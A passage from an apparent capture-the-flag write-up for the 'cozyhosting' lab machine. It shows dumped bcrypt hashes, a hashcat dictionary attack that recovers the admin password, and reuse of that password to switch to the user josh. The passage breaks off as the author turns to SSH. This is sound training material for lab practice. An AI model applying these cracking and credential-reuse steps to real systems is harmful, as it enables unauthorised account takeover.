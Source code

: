

    $ cat hashes 
    kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
    admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm



`hashcat` isn't able to automatically detect the hash type:



    $ hashcat hashes --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
    hashcat (v6.2.6) starting
    ...[snip]...
    The following 4 hash-modes match the structure of your input hash:

          # | Name                                                       | Category
      ======+============================================================+======================================
       3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
      25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
      25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
      28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

    Please specify the hash-mode with -m [hash-mode].
    ...[snip]...



I'm including `--user` because my hashes have `[username]:` at the front
of each line.

3200 is the most generic type, so I'll start with that:



    $ hashcat hashes --user -m 3200 /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
    hashcat (v6.2.6) starting
    ...[snip]...
    $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
    ...[snip]...



admin's password is "manchesterunited".

### su / SSH

The other user on the box is josh, and that password works with `su`:



    app@cozyhosting:/$ su - josh
    Password: 
    josh@cozyhosting:~$



Or I can get a clean shell with SSH:
